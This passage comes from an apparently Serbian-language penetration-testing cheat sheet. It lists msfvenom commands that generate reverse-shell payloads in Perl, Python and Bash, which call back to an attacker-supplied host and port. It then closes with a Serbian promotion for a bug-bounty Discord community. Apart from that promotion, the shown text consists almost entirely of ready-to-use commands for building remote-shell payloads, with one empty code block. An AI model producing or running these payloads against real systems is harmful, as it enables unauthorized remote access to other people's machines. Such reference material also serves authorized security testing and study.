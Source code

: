 ```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```

### **Bash**

{% code overflow="wrap" %}
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Pridružite se [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) serveru kako biste komunicirali sa iskusnim hakerima i lovcima na bagove!

**Hakerski uvidi**\
Uključite se u sadržaj koji istražuje uzbuđenje i izazove hakovanja

**Vesti o hakovanju u realnom vremenu**\
Budite u toku sa brzim svetom hakovanja kroz vesti i uvide u realnom vremenu

**Najnovije objave**\
Budite informisani o najnovijim pokretanjima nagrada za pronalaženje bagova i važnim ažuriranjima platforme
